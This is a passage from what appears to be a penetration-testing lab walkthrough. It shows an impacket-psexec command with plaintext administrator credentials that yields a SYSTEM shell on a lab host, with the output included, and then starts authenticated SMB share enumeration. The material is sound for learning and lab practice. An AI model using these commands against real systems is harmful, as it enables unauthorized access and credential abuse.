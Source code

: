 **Why Evil-WinRM?**: 
- Built-in upload/download functionality
- PowerShell command history
- Tab completion
- Local script execution

#### Method 3: PSExec (SYSTEM Access)

```bash
# PSExec for SYSTEM shell (requires admin credentials)
┌──(kali㉿kali)-[~]
└─$ impacket-psexec Administrator:Password123\!@192.168.148.101
```

**Note**: Escape the `!` in bash with `\!`

**Output**:
```
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on 192.168.148.101.....
[*] Found writable share ADMIN$
[*] Uploading file XYZ.exe
[*] Opening SVCManager on 192.168.148.101.....
[*] Creating service RoHP on 192.168.148.101.....
[*] Starting service RoHP.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.1234]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

---

## Phase 5: SMB Share Enumeration

### Understanding SMB Shares

**Why SMB Matters**: SMB (Server Message Block) is Windows' file sharing protocol. Misconfigured shares often contain:
- Backup files with passwords
- Configuration files
- Source code
- Database backups
- User documents

### Systematic Share Enumeration

```bash
# List all shares (authenticated)
┌──(kali㉿kali)-[~]
└─$ smbmap -H 192.168.148.101 -u overclock -p Administrator2025!
```
